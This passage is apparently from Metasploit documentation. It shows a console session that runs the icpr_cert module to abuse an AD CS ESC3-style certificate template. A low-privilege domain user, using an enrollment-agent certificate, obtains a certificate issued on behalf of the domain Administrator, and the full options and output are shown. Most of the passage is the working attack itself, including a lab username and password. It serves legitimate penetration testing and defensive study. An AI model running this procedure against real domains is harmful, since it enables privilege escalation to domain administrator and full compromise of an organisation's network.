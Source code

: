 Just to show this is also possible with `ESC3-Template2` here is a snippet showing that also works:

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template2
CERT_TEMPLATE => ESC3-Template2
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template2                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
